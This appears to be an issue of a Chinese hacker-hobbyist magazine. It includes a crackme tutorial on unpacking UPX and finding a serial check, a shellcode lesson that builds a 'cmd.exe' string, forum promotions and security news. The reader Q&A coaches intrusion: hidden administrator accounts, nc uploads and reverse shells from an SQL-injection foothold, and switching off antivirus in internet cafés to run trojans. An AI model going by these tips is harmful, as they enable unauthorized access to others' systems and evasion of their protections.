前些日子，网上一群学 Crack 的朋友说，现在搞 Crack 的吸引力好像远远不及搞 HACK 的，加入 Crack 行列的朋友好像越来越少了，活跃的还是以前的那帮人，且个个都是大侠级人物，不能与之为伍。周围的朋友越来越少，觉得挺郁闷挺孤单的，问我 Cracker 的出路在哪里。当时我听他那么一说，也不晓得该说些什么了。说什么呢？人各有志，自己走的路都是自己选的，谁也左右不了。至于 Crack，由于其整天埋在代码里，自然没人时就令人觉得很枯燥，且又不能在短时间内看到大的成效，所以偶尔觉得孤单也在所难免；但只有那些真正钻进去的人才能体验到：风景这边独好！So，希望立志于 Crack 的朋友能挺住，坚持下来，你就是高手！

## 看雪论坛精华 1-7

搞 Crack 的人应该对“看雪”这个名字比较熟悉吧，“看雪”的坛子里有很多的高手，写了不少的原创作品，对大家的学习都是很有帮助的。“看雪”年年都要把其坛子里的好文章收录做成 CHM。这里我给大家收录了全部的精华文章，解开压缩包，打开 index.chm，就能看到所有单元文章了，如图 1 所示，希望你能喜欢。


## 破解 0 起步：熟悉 CRACK 指令 And 流程

- 从本文你可以学到：
  - 熟悉 CRACK 过程中常用的指令。
  - 熟悉 CRACK 的一般流程和步骤。

从这期开始，我将给大家带来系列的破解文章。开始时讲些基本知识，照顾下没什么基础的朋友，然后使用经典的 CRACKME 做例子，讲解一般程序的 CRACK 流程，后续文章将结合实际例子讲述和演示以前讲过的知识。今天是第一讲，带领大家熟悉下 CRACK 中常用的指令，再以两个 CRACKME 做范例讲述一般 CRACK 的流程。

### 一、熟悉 CRACK 指令

在讲破解之前，我想和大家复习下汇编的一些基础知识。毕竟破解不论是静态还是动态都离不开汇编。下面我就为大家讲点基本的汇编知识，让大家熟悉下 CRACK 中最常见的指令。

- 1. 转移指令
  - Jmp 无条件转移
  - Jz 结果为零转移
  - Jnz 结果不为零转移
  - Jl 小于则跳
  - Jle 小于或等于跳
  - JG 大于则跳
  - JGE 大于或等于跳

- 2. 比较指令（一般都是在转移指令上面）
  - CMP 目的操作数，源操作数（例如：CMP AX,BX）
  - AND 目的操作数，源操作数（例如：AND AL,00）
  - OR 目的操作数，源操作数（例如：OR AX,BX）
  - TEST 目的操作数，源操作数（例如：TEST AX,BX）
  - XOR 目的操作数，源操作数（异或运算）

### 二、熟悉 CRACK 流程

开始时，我们拿到一个程序的时候，不是马上去尝试怎么破解它，而是先找它的帮助文档看看，再试用下程序的功能，试着假注册，看它的注册方式和注册的错误提示。看完了这些，接着要做的就是用工具 PEiD 查看它是什么语言编写的、加了什么壳等信息。


范例 1 熟悉 CRACK 流程：下面开始我们的实例，是一个 CRACKME。运行它，在注册框里输入 111111111111（习惯，随便输什么都行），点 Check The Serial，弹出提示错误的注册码：You are a bad cracker! 如图 1 所示。到这里，我们再用 PEiD 查看它。


是什么语言编写的和是否加壳等信息，结果如图 2 所示。注意这一行：`UPX 0.89.6 - 1.02 / 1.05 - 1.24 (Delphi) stub -> Markus & Laszlo`，这里表示被 UPX 加壳的 DELPHI 程序。对付这个壳很简单，用 OD 加载这个 CRACKME，OD 提示文件代码被压缩，是不是继续分析？如图 3 所示。

点“否”，这时 OD 停在下面的位置，这一段是 UPX 加壳的一个特征。


现在要做的是脱壳，一直往下翻几页可以看到，如图 4 所示。


`POPAD` 后面跟着的 `JMP` 就是 UPX 脱壳的地方，直接在 `004557E7` 上 F2 断点，一 F9 运行，被停下来，F8 一步到程序的入口点 `00442E44`，接着用 OD 的插件 DUMP 出来，如图 5、图 6 所示。点“脱壳”，保存文件名为 `1.cxc`（随便是什么文件名），就完成脱壳了。


现在就用它来作为我们的切入点。用 OD 载入我们刚脱壳的 1.EXE，右键——搜索——所有参考文本串，可以看到程序中用到的文本都在这里了。现在光标是在地址 = `00442E89`，反汇编 = `mov eax,dword ptr ds:[443C54]`，文本字符串 =（初始 CPU 选择）这行，向上几行就会看到我们要找的东西，如图 7 所示。


> ASCII "Wrong Serial"  // 细心点的都会知道这个是当时对话框的标题  
> ASCII "You are a bad cracker!"  // 这个是出错提示

双击运行，到黄的这行，既然这里是出错的地方，那就往上看看吧，应该有到这里的跳转。往上找找这个进来的地方。在上面的 `00442B2C` 处应该就是进来的地方，如图 8 所示。然后在这个位置 F2 下断点，再 F9 运行程序。


软件此时运行起来了。我们在输入注册码的位置输入一个假码 11111，点 Check The Serial，这时被 OD 拦了下来，然后一直 F8 走到 `00442B50`：

```asm
00442B50  8B45 FC        mov eax,dword ptr ss:[ebp-4]
00442B53  BA E82B4400    mov edx,1.00442BE8
00442B58  E8 E70FFCFF    call 1.00403B44
00442B5D  75 1A          jnz short 1.00442B79
...
00442B6F  6A 00          push 0
00442B61  B9 F42B4400    mov ecx,1.00442BF4
...
00442B66  BA 0C2C4400    mov edx,1.00442C0C
```

上面的 CALL 进去后到 `00403B44`，往下几步到下面的代码处。到这里就 OK 了，出来以后就到……

```asm
00403B4B  39D0             cmp eax,edx
00403B4D  0F84 8F000000    je ...
00403BE2  ...              // 这里让它跳
```

……了成功的界面。这个是很容易的，适合所有刚开始接触破解的人。

范例 2 熟悉破解步骤

下面我再讲个 CRACKME，让大家熟悉下破解的几个步骤。在开始之前，还是先运行程序，可以看到是比较典型的用户名注册模式。试探下错误提示和注册的方式。随便输入一组假注册码，如图 9 所示，点“CHECK”，提示出错，如图 10 所示。


我们还是老规矩，从出错的提示下手。由于 OD 本身不支持中文，所以我在字符串里面是找不到的。这里我用了一个插件，可以显示中文的错误提示，如图 11 所示，这样就使得我们还要用 W32dasm 来反汇编。

在上图中可以找到下面这些字符串：

| 地址 | 反汇编 | 文本字符串 |
|---|---|---|
| 00401538 | push CrackMe! 00403064 | 出错！ |
| 0040153D | push CrackMe! 00403038 | 输入出错，请重新试一遍！ |
| 00401558 | push CrackMe! 0040302C | 你真棒呀！ |
| 0040157F | push CrackMe! 00403020 | 注册成功！ |
| 004018A0 | push ebp | （初始化 CPU 选择状态） |

双击“输入出错，请重新试一遍！”到 0040153D，在上几行可以看到很多地方都跳到出错的这里。我把这段代码复制下来，给大家详细地分析下。

```asm
004014E1    83F8 05        cmp eax,5
004014E4    7E 50          jle short CrackMe1.00401538
004014E6    8D6E 60        lea ebp,dword ptr ds:[esi+60]
004014E9    8BCD           mov ecx,ebp
004014EB    E8 5A030000    call <jmp.&MFC42.#3876>
004014F0    83F8 05        cmp eax,5
004014F3    7E 41          jle short CrackMe1.00401536
004014F5    8B86 E0000000  lea eax,dword ptr ds:[esi+E0]
004014FB    8BCF           mov ecx,edi
004014FD    50             push eax
004014FE    E8 40300000    call <jmp.&MFC42.#3874>
00401503    8B8E E4000000  lea edi,dword ptr ds:[esi+E4]
00401509    8BCD           mov ecx,ebp
0040150B    57             push edi
0040150C    E8 33030000    call <jmp.&MFC42.#3874>
00401511    8B07           mov eax,dword ptr ds:[edi]
00401513    8038 36        cmp byte ptr ds:[eax],36
00401516    75 1E          jnz short CrackMe1.00401536
00401518    8078 01 32     cmp byte ptr ds:[eax+1],32
0040151C    75 18          jnz short CrackMe1.00401536
0040151E    8078 02 38     cmp byte ptr ds:[eax+2],38
00401522    75 12          jnz short CrackMe1.00401536
00401524    8078 03 37     cmp byte ptr ds:[eax+3],37
00401528    75 0C          jnz short CrackMe1.00401536
0040152A    8078 04 2D     cmp byte ptr ds:[eax+4],2D
0040152E    75 06          jnz short CrackMe1.00401536
00401530    8078 05 41     cmp byte ptr ds:[eax+5],41
00401534    74 17          je short CrackMe1.0040154D
00401536    6A 00          push 0
00401538    68 64304000    push CrackMe1.00403064
0040153D    68 38304000    push CrackMe1.00403038
00401542    8BCE           mov ecx,esi
00401544    E8 F5020000    call <jmp.&MFC42.#4224>
```

在上面的代码里，我们看到它在比较的时候都是一些 36、32、37、2D 这样的数字。这是 16 进制的表示，大家记不住也不要紧，在系统附件的字符映射表里有一份很详细的字符转 ASCII 的代码表，在里面对着看就可以了。

上面的分析已经很详细了。另外，这两个例子我都做了动画，在光盘里有收录的，大家可以对照着操作演练。有什么不明白的地方可以去论坛反映，我会及时回答的。下期我们将结合实际软件来加固我们学到的知识，下期再见！

（文章中提到的 PEiD、OD by DYK v1.10、两个 CrackMe 及作者做的动画，已收录在光盘里。）

> 编者点评：作者写了一系列的破解文章，从最基本的指令开始，到 CrackMe 的破解演示，下期接着用实际的软件来做示范，学以致用。

## 雕虫小技之 *nix 专辑

【切换 X 桌面环境】

如果你是以图形登录方式登录 Linux，那么点击登录界面上的 session（任务）即可选择 gnome 和 kde；如果你是以文本方式登录，那执行 `switchdesk gnome` 或 `switchdesk kde`，然后再 `startx` 就可以进入 gnome 或 kde。

（或者 vi `~/.xinitrc`，添加或修改成 `exec gnome-session` 或 `exec startkde`，然后用 `startx` 启动 X。）

## 菜鸟轻松制造 Shellcode 内部字符串

（导语框）构造 Shellcode 内部字符串的方法介绍：传统调用 emit 关键字构造字符串，以及更简化的改进思路。

## 一、问题的提出

看过《Q版缓冲区溢出教程》和这几期 NoHack 溢出专题的读者，对编写 Shellcode 都不陌生了吧。编写 Shellcode 和普通程序的最重要不同是，Shellcode 里使用的字符串都需要 Shellcode 自身来构造。比如要执行 `system("cmd.exe")` 指令，参数 `cmd.exe` 字符串地址未知，因此需要先在内存中构造该字符串，再将其地址入栈并调用函数。

## 二、传统方法

传统方法是在栈中逐字节构造字符串，例如通过 `mov` 指令将 `'c'`、`'m'`、`'d'`、`'.'`、`'e'`、`'x'`、`'e'`、`'\0'` 写入 `[ebp-0x8]` 到 `[ebp-0x1]`。随后 `lea` 获取字符串首地址，`push` 入栈，再加载 `system` 地址并 `call`。

```asm
mov [ebp-0x8], 'c'
mov [ebp-0x7], 'm'
mov [ebp-0x6], 'd'
mov [ebp-0x5], '.'
mov [ebp-0x4], 'e'
mov [ebp-0x3], 'x'
mov [ebp-0x2], 'e'
mov [ebp-0x1], '\0'
```

```asm
lea eax, [ebp-0x8]   ; 获取cmd字符串首地址
push eax             ; 字符串地址入栈
mov eax, 0x77bf93c7  ; system函数地址（示例）
call eax
```


文章指出该方法繁琐且代码膨胀：逐字节 `mov` 不仅麻烦，还会显著增加机器码长度，不利于 Shellcode 对精简性的要求。

## 三、改进方法

可使用 `_emit`（及 MASM 的 `DB` 思路）直接定义字节来构造字符串。通过连续 `_emit` 定义字符，配合 `call` 技巧可自动获得后续字符串地址，实现“构造+入栈+调用”一体化。

```asm
call EXEC
_emit 'c'
_emit 'm'
_emit 'd'
_emit '.'
_emit 'e'
_emit 'x'
_emit 'e'
_emit '\0'
EXEC:
mov eax, 0x77bf93c7
call eax
```


解释：在 `call EXEC` 后，返回地址（即后续字符串位置）会自动压栈，因此可直接作为 `system` 参数使用，减少额外指令。该方法代码更短、结构更清晰，适合在 Shellcode 中频繁构造字符串场景。

【编辑点评】作者对两种构造 Shellcode 内部字符串的方法进行了原理与优缺点比较，给出更实用的精简写法。

## NoHACK 论坛贴吧

小草发芽了，北雁南飞了！我们所在的北半球的小菜小黑们上网的时间增多了。为什么呢？因为白天时间长了，又可以找些理由跟父母应付然后颠到网吧里玩一会儿了。如果我们到网吧只是玩些无聊的游戏、看些 H 电影，那是没有意义的！但是如果我们去网吧是搞技术研究的话，就值得表扬。而学习怎么能少得了交流场所？《黑客手册》论坛就为广大的菜鸟老鸟朋友提供了技术交流、娱乐休闲的空间。而且你发发帖子就可能中奖，灌灌水就可能被评为论坛幸运会员！一位菜鸟来信说，要是在 21 世纪前谁告诉我天上掉馅饼的事，我肯定会把他当头臭骂一顿，并且郑重地告诉他们，那绝对不可能。可现在我知道我错了，而且错得还很严重！因为我只在《黑客手册》的论坛里发了发言，就被编辑给选为了幸运会员，还赠送了我一本杂志。呵呵！其实像这位读者说的话，活动还有很多，我们就一起来仔细看看吧！

## 一、黑客手册活动区

- 1. 使你的名字及联系方式免费出现在杂志上  
也许你想交朋友，但是写信实在是太麻烦；也许你想找个人来一起交流黑技，但是就是找啊找也找不到。也许……然而因为有了“她”，你的梦想不但成了现实，你还成了别人羡慕的对象！  
地址：http://www.nohack.cn/bbs/thread-2437-1-1.html

- 2. 我们也当次策划人  
你的建议完全有可能变为现实，只要你的建议够酷够炫并且容易操作。想叫我们的各个地区读者群变成什么样子，侧重于什么？只要你的想法完全可行、可操作，我们就会在全国地区各个群里开展黑技探讨活动。  
地址：http://www.nohack.cn/bbs/thread-4043-1-1.html

- 3. 每月 1 名读者来信选登全面展开  
有位 ID 为魔影疾的读者说：《黑客手册》作为一个新的杂志，黑客的又一个个性空间，提供了一些菜鸟们展示自己的地方，这一点我认为杂志社做得很不错！同时希望 nohack 不要像一些杂志和网站那样搞得到处都是铜臭，多开展一些免费的培训。祝 nohack 越来越好，越来越棒，做黑客界的龙头老大！！！  
这里感谢这位读者对我们杂志的关心；我们正在考虑与某些培训站点合作，每月赠送大家培训名额！

- 4. 我们 NOHACK 的互动游戏又来了！！！  
怎么样？赶快成立你们地区的群吧！这样你就有机会当选为优秀群主。当然前提是必须符合我们的规定啊！赶快到论坛来提建议吧！这样你就有机会获得大礼包！


## 二、技术大杂烩区

- 1. 随随便便就可以黑掉一个网站！  
“现在网站的安全真叫人担心！随随便便就可以黑掉一个网站。今天无聊的时候，就用明小子的旁注工具结合百度，关键字是 admin 或者 asp?id=，还有其他的关键字等等，就可以搜到一大堆，甚至有的网站规模还不小。不信大家去看看这个网站——”这些话不是谁的呓语，而是论坛的上官石林同学的真实感悟，是写得很精彩的一篇技术感悟文章。  
地址：http://www.nohack.cn/bbs/thread-4594-1-1.html

- 2. 内网与外网问题  
“本人是在学校内网上网，用的是代理服务器上的网，代理 IP 是：192.168.7.254:3128，没有 DNS 和网关，这是不是很重要？”因为我们大多数朋友都还没银子买自己的电脑，所以网吧和机房就成了我们的首选场所。但是很多工具在内网（比如网吧和机房都是内网）都是玩不转的，我们真的好郁闷。究竟怎么样才能解决内网的这些让人郁闷的问题呢？请直接去下面的帖子里看看吧！  
地址：http://www.nohack.cn/bbs/thread-4502-1-1.html

- 3. 菜鸟零起步接触黑客系列教程（免费）——《名词介绍》  
首先给大家介绍点名词：  
1. 肉鸡  2. 木马  3. 病毒  4. 后门  5. CRACK  6. 漏洞  7. 端口  8. 权限。  
……好了，下面我来详细介绍下——

## 三、休闲中心

- 1. 不好了，不好了，大人物“黑裤子”和“土匪婆”吵起来了。  
地址：http://www.nohack.cn/bbs/thread-61-1-2.html  
地址：http://www.nohack.cn/bbs/thread-4467-1-1.html  
地址：http://www.nohack.cn/bbs/thread-4538-1-2.html

- 2. 娶美女要具备的十二个硬指标（男士必读）

好了，就说这么多了，其实好的东西真的很多，但是篇幅有限，实在说不完啊！如果你不想错过那么多的好帖子，我就直接告诉你我们的地址吧！那就是（http://www.nohack.cn/bbs/index.php）。

## QQ群黑板报

现在 QQ 群里做广告的人越来越多，大家都很烦，但也有人确实有广告信息希望发布。为此我们反对有人进行恶意刷屏发广告，但是，必须给真正有价值的信息留有空间。

- 1. 广告内容要与我们的学习宗旨相符合，不得以任何形式危害到群内成员的安全！
- 2. 发广告前，须得到群主（管理员）的许可！

各群主，请注意和谐哦\~\~\~如有违规恶意广告，请管理员积极处理（该踢的踢，该封的封）……

## QQ群最新整理如下（4月17日）

| 分组 | QQ群信息（节选） |
|---|---|
| A | 黑客手册北京分流群、黑客手册深圳群 |
| B | 黑客手册重庆群、黑客手册河北分群 |
| C | nohack长沙1号群、黑客手册大连群 |
| D | 黑客手册成都2群、NoHack太原群 |
| E | 福建黑羽联盟、黑客手册南宁群 |
| F | 黑客手册广西分群、NoHack泉州群 |
| M | nohack湖北分群、非安全四川群、nohack江苏二群 |
| N | 黑客手册包头群、黑客手册南京群 |
| S | 安全四川分群（未满请加2号群） |
| W | 黑客手册天翼2号群、黑客手册沈阳分群 |
| X | 黑客手册沈阳1号群（未满请加2号群） |
| Z | 黑客手册新疆分群、黑客手册西安联盟 |

（原图为三栏长列表，以上为可辨识内容的结构化整理）

本期主持：小龙猪

“这位施主气度不凡，请留步，请留步……喂，喂，请留步……”
“哼哼哈嘿，哼哼哈嘿”

小龙猪看到 Q&A 主持 2 字，脑海里就会联想起寺庙主持、方丈这类普度众生的高尚职业，也想起了早前“观音娘娘”过生日，在去往寺庙朝圣的路上所遇到的情景。……（后续为引言叙述，介绍本期问答内容）

- 我用溢出漏洞得到一个 shell，但是 net 命令却不能用，怎么解决？如何恢复 net 命令？
- 谁能告诉我，怎么禁止用户使用组策略（Windows XP 下）？
- 请问 `C:\WINDOWS\G_Server2.0.exe` 如何清除？请提供方法或工具。
- 网络征集问题：我用注入工具得到一个 SA 权限的注入点，该怎么做？
- 我在网吧使用黑软或者木马时，总是被杀毒软件查杀（如 rtvscan），如何解决？

Q：我用溢出漏洞得到一个 shell，但是 net 命令却不能用，怎么解决？如何恢复 net 命令？  
A：分析原因包括 net 程序被删除或权限被拒绝。可尝试使用 net1、上传 net 程序、用 cacls 恢复权限，或借助后门工具执行相关用户管理命令。

```text
clone Password --> 将 Guest 克隆成管理员用户，后跟自定义的 GUEST 密码
admin USER PASS --> 添加隐藏的高级管理员用户，后跟用户名与密码
userlist --> 列举系统的所有用户
deluser USER --> 删除用户名，后跟要删除的用户名
```

Q：为什么电脑不允许运行 .EXE 文件？怎么恢复运行？  
A：通常为 EXE 关联被修改。可通过 Regedit 修改 `HKEY_CLASSES_ROOT\exefile\shell\open\command` 默认值，或在安全模式下使用 `ftype` / `assoc` 命令恢复。

```cmd
ftype exefile="%1" %*
assoc .exe=exefile
```

Q：怎么禁止用户使用组策略（Windows XP）？  
A：组策略调用 `%windir%\system32\gpedit.msc`。可通过权限拒绝或修改 `.msc` 文件关联的注册表项来限制打开。

Q：`C:\WINDOWS\G_Server2.0.exe` 如何清除？  
A：这是典型灰鸽子服务端。可先停止相关服务再删除，或使用灰鸽子专用清除器处理。

网络征集问题  
Q：利用 SA 注入点后如何进一步操作？  
A：可通过注入工具列目录、上传 nc、执行 CMD 并反弹 shell 等方式获取 system 权限。

Q：在网吧使用黑软/木马时被杀毒软件（如 rtvscan）查杀，进程难结束，如何解决？  
A：rtvscan 是诺顿实时防护进程，需要针对防护机制处理（原文后续在下页）。

处理工具都是无法解决的。其实干掉它的办法很简单，运行 `services.msc`，或者在“我的电脑”右键进入管理，然后在服务项目里找到“Symantec Real Time Virus Scan Service”，在启动项目选择“已禁用”就可以直接关闭这个进程了（以上方法视具体网吧设置而定，有些网吧会禁止掉“运行”功能甚至不提供“我的电脑”）。

Q：我最近发现了一个新闻系统的 SQL 注入漏洞，可是用工具却无法得到表名和列名，听别人说只要下载了这个站的整站代码就可以根据数据库信息进行猜解，可是如何得到？  
A：一般通过查找网站中比较特殊的文件名，例如我找到一个数据库连接文件 `dbconnect/news.inc.asp`，然后进入“乐搜结构”搜索引擎进行源码查询，http://www.seeknot.com，输入 `news.inc.asp` 进行查找，很容易就发现了该站是利用的三峡在线新闻系统。注意一定要搜索特殊的文件名，例如你搜索 `view.asp` 这样的信息会有很多相关程序，这就要取决于你的细心和耐心了。

Q：我用的是 Windows XP 系统，想在本地架设一个 WEB 服务并让朋友访问并下载，在网上找了很多软件都不支持 asp，请问有什么方法或者软件可以解决？  
A：在控制面板中选择“添加或删除程序 -> 添加/删除 Windows 组件”，插入系统安装盘后进行 IIS（Internet 信息服务）安装，最后进入开始菜单的管理工具下可以找到 IIS 服务进行相关设置。没有安装光盘的朋友，可以到这里下载 IIS 5.0 和 6.0 的版本进行提取安装，URL 如下：http://www.kkr.cn/web/Soft/gongju/200512/67.html。

XP HOME 版的朋友可以尝试以下步骤：

- 1. 用记事本打开 `C:\WINDOWS\INF\SYSOC.INF`，在 `[COMPONENTS]` 下找到一行：`iis=iis.dll,OcEntry,iis.inf,hide,7`，然后把它改成 `iis=iis2.dll,OcEntry,iis2.inf,,,7`
- 2. 插入 Windows 2000 专业版的光盘，用 WinRAR 打开光盘 i386 目录下的 `iis.dl_` 和 `iis.in_` 这两个 CAB 格式的文件，将解压缩得到的“iis.dll”改名为“iis2.dll”，复制到 `C:\Windows\system32\setup\` 目录下；将“iis.inf”改名为“iis2.inf”，复制到 `C:\Windows\inf\` 目录下。（或者使用命令 `EXPAND IIS.DL_ IIS2.DLL`；`EXPAND IIS.IN_ IIS2.INF`）
- 3. 再次进入控制面板的相关项目便可以进行 IIS 组件的安装。

此后利用 Windows 2000 Advanced Server 光盘和 Windows XP Home Edit 光盘复制文件。最后在：控制面板 -> 管理工具 -> Internet 服务管理器，点“默认 WEB 站点”的右键，转到“目录安全性”选项卡，点“匿名访问和验证控制”的“编辑”按钮，弹出匿名方法新窗口，再点击其中“匿名访问”中的“编辑”按钮，将“允许 IIS 控制密码”前面的勾去掉，然后一路确定返回即可。

当然也有非常实用的绿色工具，首先是小巧并且支持 asp 和日志显示的 BuoR Web Server，大家可以到我的网络硬盘的小工具栏目里下载：http://yizhiqu.ys168.com。也可以试试 yaou 朋友为我们带来的强大的 Quick 'n Easy Web Server，下载地址和相关说明请参考：http://www.hanzify.org/index.php?Go=Show::List&ID=10229。


## 本期的风云同学

## 四川成都的杨树同学

尊敬的编辑：

（语气庄严的开头）  
你们好！（礼貌用语）  
这是我第一次写信与你们，  
看你们的杂志已经很久了……

（本信精华部分，风云同学一语双关。既表达了对“杂志”爱戴之情，又表达了对我报纸“杂”的不满情绪，让小编汗颜一把。也让小编感受到坚持环保的重要。）  
1. 大力抓“文革特别字”；  
2. 联系印刷厂，禁止他们用杂纸。

前辈：

（小编脑海里闪现出手拿一把大刀，画着京剧脸谱、头戴一顶瓜皮帽的前辈形象）

您好！我是一名初二的学生，成绩不好，为此，我对我的前途充满恨意！（小编：杨树同学在“您好”后面没有回车，算是节约典范。但是你已经意识到成绩不好，说明你有了奋起直追之心，我们为你加油，就不要“恨”自己了。）老师对我也倍感失望，有一次，老师叫我去办公室，问我：“你除了体育好之外，还有什么成绩觉得骄傲！”是的，我真的没有什么可骄傲了，可我却想到有一位同学经常拿着一本《非安全》，他说是专攻计算机。于是，我想都没有想就大声说（小编：明明你是想了之后才说的噢）：“我可以学黑客，也就是计算机。”老师听了说：“我给你一个月时间，你把学校教务处给侵了，我给你100元！要是没有成功，你以后就别读书了。”（小编：黑客要从基础抓起。我们的老师以物欲刺激的方式鼓励和激将杨树同学学习黑客，并同时培训他的“商业黑客”情商，真是可圈可点。看来现在国内教育已经从应试教育提高到了素质教育，智商情商黑商一起抓，小编心里很是安慰。）

一封来信开了一个好头，让小编充满了期待。但是小编猜中了开头，却猜错了结局。小编本以为结局应该是杨树同学入侵了教务处，赢得了100元大奖，并从此立下老师骄傲的宏大心志。可是小杨树同学说他拿到《非安全》之后，一点也看不懂。原来这是一封求助信。小编觉得对于未成年人应该多多采取鼓励表扬的教育方式，并开发其特长。同时，我们对于杨树同学的未来也充满了希望，既然你已经悟到自己读书的重要性了，那就好好努力吧。

## 黑客手册

本手册仅随 CD 一同赠送，不得单独销售。Q版的黑客手册＋时尚的娱乐光盘（我的手册，你的光盘）

【首发漏洞】  
年会之下，必有勇夫——DVBBS 7.1 SQL 漏洞全攻略

嘿人之翅  
依靠 PHP3.PL.ASA 突破 9466 Article（文章）系统上传限制  
PHPWindBlog 又现新漏洞

夏令专题：OBLOG 专辑——提供了一套地方之利

- 冲动折皱
- 黑手造鹤
- 魅影
- 利剑
- 混账
- 巧利华
- 电波男
- Chib.CMS 漏洞利用分析
- SERV-U 权限提升
- MySQL 提权


## 烽火台

时间简直比 DOS 时候的数据流还要快，一不小心，到六一了！这里小行给各位读者问个好，六一快乐啊！儿童节可是你们的节日啊！（无数小菜把鸡蛋扔过来了！我闪！我闪！）。到了六月一年就已经过了一半了，到了六月，我们就开始想7月了，因为7月是放暑假的月，是我们可以玩得天昏地暗而不必担心第2天去哪会被K的月。好了，7月还是下个月的事，我们先来把握6月总结5月吧！随手翻看了下5月前的杂志，我发现我们好久没唠老大哥微软了。这次我们就来唠10块钱的！5月9日微软发布了三款补丁软件，其中两款补丁软件修正了 Exchange 电子邮件服务器软件和 Windows 版第三方软件中的危险缺陷。据微软的安全布告称，Exchange Calendar 和 Windows 版 Flash Player 能够使黑客在用户系统上执行远程代码。微软还发布了一款修正 Windows 中“中等”缺陷的补丁软件。通过发送特别设计的网络消息，黑客可以发动恶意攻击。这次补丁后，随之而来的是网站被黑事件，因为在线软件发布后，大部分网络管理员都不太更新修补漏洞，所以这个时候我们的黑客就开始紧锣密鼓地制作针对相关漏洞的攻击工具了。说完了微软，我们再来说说“动网”，动网又有最新漏洞，5月12日动网官方论坛惨遭“屠戮”。新漏洞直接攻击动网论坛。呜呼！主要针对的是 DVBBS 7.1。这个漏洞比较严重，漏洞主要原因是对 savepost.asp 文件中变量过滤不严，导致数据库处理产生漏洞，本期“新闻练练看”有详细利用过程。好了，具体来看新闻短评吧！！

## 网易社区惨遭攻击

5月7日网易 CLUB 首页写满攻击性词语。随后，社区页面无法正常使用。8日6时15分，记者发现网易社区（club.163.com）的首页仍无法登录。网易客服称“正在进行系统数据调试”。

> 网易社区被涂鸦，说明一个问题，再大的站也有漏洞可寻。新浪、sohu也没有幸免。不过，套用一句老话“常在网上混，难免不挨黑”。如果是很早以前，大家对于被黑还遮遮掩掩，闪烁其辞；到今天这个已是司空见惯的黑客行为艺术，大伙也就见多不怪了。网站和人一样，没有谁敢说自己是完美的，没有谁敢说自己是绝对安全的，除非是宇宙以外的生物。但这种事件也给我们留下一些思考，黑客事件促进了安全的进步，但是有些黑客事件也给网络的发展带来一些不利的因素。那我们该通过什么手段来有效抑制不良黑客事件的发生呢？呵呵，这不是一个简单的问题，这是一个很复杂的社会问题，需要大家的智慧。

## 受攻击弹黄色窗口 广州物价局网站一度关闭

因被黑客攻击弹出黄色网页，广州市物价局官方网站“广州价格信息网”昨日中午开始关闭，直到下午恢复开放。市物价局有关负责人表示，目前，物价局组织了包括网站维护公司在内的数家计算机网络安全公司查找原因及黑客，重新开放网站后将进一步加强安全措施，并视情况追究黑客刑事责任。

> 这个只能叫作是伪黑客！真正的黑客不屑并仇视这种行为，少数的这些人使公众误以为黑客就是搞破坏的。在此更正这种看法。真正的黑客是创造，而不是破坏。

## 假冒剑网2官方网站 玩家警惕中奖骗局

日前，一位玩家向金山软件举报了一条重要信息，希望证实信息的可靠性。该玩家声称有个神秘人给他发信息称“我是金山软件员工，恭喜你中了我们发出的大奖手提电脑，请点击 http://jx2-7dy.net/ 领取奖品！”据金山软件工作人员透露，当登录此网站后，发现整个网站页面不仅抄袭了《剑网2》官网设计，还堂而皇之写上“谢谢的朋友您使用系统随机抽取玩家……请抓紧时间办理登记，办理交纳250元的手续费，逾期不办理视为作废”。

> 挖空心思地钓鱼！又是钓鱼！粗心的玩家要注意登录相关站点时一定要细心核对，以免被骗！

## Windows Vista一再被延迟 急煞Win 2000用户

随着微软 Windows Vista 操作系统上市时间的一再跳票，相当部分的 Windows 用户已经急不可耐。市场分析人士认为，如果微软的 Windows Vista 操作系统再次宣布延期的话，最难受的莫过于广大 Windows 2000 用户，因为这对他们来说将意味着面临更加困难的抉择。

> 一推再推，微软大哥办事效率也实在是太低了，可能 Bug 多多，还在加紧修改。不过按一般正常的逻辑，耗时间研究的东西都是好东西。如果这个系统真的很令人满意，那么我们等等也是值得！

## 广告现身间谍软件和色情网站 雅虎遭起诉

据国外媒体报道，不久前 Google 公司遭遇点击欺诈官司，同样的“命运”也降临到 Google 的对手雅虎身上。5月8日，一家美国新泽西州的广告商将雅虎公司告上法庭，理由是雅虎将其广告显示在一些“间谍软件类和恶意设置网站”上，雅虎未能保障广告客户免遭竞争对手的“恶意点击”。原告名叫“佛罗尼卡工艺品公司”，专门生产及销售饰品。该公司代理律师5月8日将诉状递交到联邦地方法院。佛罗尼卡公司还在寻求集体诉讼，即要求更多的受害者参加原告队伍。起诉状称，雅虎公司违反和广告客户签署的合同，将他们的广告投放在一些恶意的间谍软件界面上，或是一些利用拼写错误欺骗访问者的“李鬼”网站，其他显示广告的网站的质量也很低劣。被告名单中的公司有雅虎2003年收购的 Overture，一家雅虎广告业务的合作伙伴 Ohhno。

> Google 公司的广告是出名的，但其对广告的苛刻程度也是很严厉的。很多站点都加了 Google 的广告。但树大招风，想靠此骗点击钱花的恶意站点不计其数。恶意点击肯定是不行的，无效的广告还要支付高额的广告费用，你说人家冤大头不，所以，GOOGLE 和雅虎不被告那才叫怪呢！

## 合肥两家网吧发生连环爆炸多人伤亡

5月3日晚，两声不同寻常的爆炸声将合肥市民从“五一”黄金周的狂欢中惊醒。晚上9时许，合肥市美菱大道民航小区附近两间相隔10多米的网吧相继发生爆炸，两次爆炸间隔仅十几分钟。据有关人士透露，本次爆炸至少造成1人死亡4人受伤。

> 小评：Netbar 这个名字最初听起来是还有点味道的东西，现在已经开始沦落为不安全不稳定的场所。前不久佳木斯市发生了网吧行凶案，上网聊QQ被欺骗，玩网游被人PK等等导致情绪化不稳定事情天天发生，所以去网吧尽量少玩游戏，因为玩网游容易激化矛盾，导致打架事件频繁发生！几年前的一家网吧纵火案导致多人死亡的悲剧今天依然记忆犹新。

## 每天4起银行卡诈骗案联网 免费杀毒当假网

去年我国发生信用卡诈骗案件1835起，涉案金额6697.03万元，挽回信用卡诈骗造成的经济损失约合1亿元。昨天央行召开《全国银行卡犯罪会议》透露，成都、郑州等地成了当前信用卡犯罪的高发地区。今年一季度，全国公安机关共立信用卡诈骗案件225起，涉案金额1022万元。同时，多发城市主要集中在沿海、北京、广东、福建、四川等经济发达、人口较密集的地区。犯罪手段日趋智能化、高科技化，网络犯罪来势凶猛，影响持卡人网银交易信息。

> 小评：伪黑客到处都是，打着黑客的幌子到处作案。提醒广大读者登录相关银行的网站时一定仔细核实，不要被钓鱼站点白白地把钱给弄丢了！

## 新型恶意邮件可控制计算机 向用户勒索10.99美元

